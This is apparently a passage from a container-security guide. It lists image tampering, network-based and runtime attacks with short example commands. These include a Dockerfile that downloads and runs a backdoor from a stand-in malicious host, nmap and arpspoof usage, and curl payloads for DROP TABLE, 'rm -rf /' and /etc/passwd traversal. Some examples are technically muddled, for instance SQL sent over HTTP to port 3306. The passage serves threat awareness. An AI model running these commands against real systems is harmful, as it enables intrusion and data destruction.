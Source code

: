 ### Attack 3: Image Tampering and Supply Chain Attacks

**Description:**
Malicious code injected into container images during build or distribution.

**Example Attack:**

```bash
# Malicious Dockerfile
FROM ubuntu:20.04
RUN apt-get update && \
    wget http://malicious-site.com/backdoor && \
    chmod +x backdoor && \
    ./backdoor &
COPY app /app
CMD ["python", "/app/main.py"]
```

**Supply Chain Compromise:**

```bash
# Attacker compromises base image
docker pull ubuntu:20.04  # Already compromised
docker build -t myapp .
docker push myapp  # Distributes malware
```

### Attack 4: Network-Based Attacks

**Description:**
Exploiting container networking for lateral movement or data exfiltration.

**Example Attack:**

```bash
# Container scanning internal network
docker run --network host nmap -sV 192.168.1.0/24

# DNS rebinding attack
curl http://evil.com.tld.internal.corp/

# ARP poisoning between containers
arpspoof -i eth0 -t victim_container gateway
```

### Attack 5: Runtime Attacks

**Description:**
Attacking running containers through exposed ports or misconfigurations.

**Example Attack:**

```bash
# SQL injection through exposed database port
curl "http://container:3306/?query=DROP%20TABLE%20users"

# Remote code execution via vulnerable web app
curl -X POST http://container:8080/api/exec \
  -d '{"command": "rm -rf /"}'

# Log poisoning leading to log injection
curl "http://container:80/?input=../../etc/passwd%00"
```
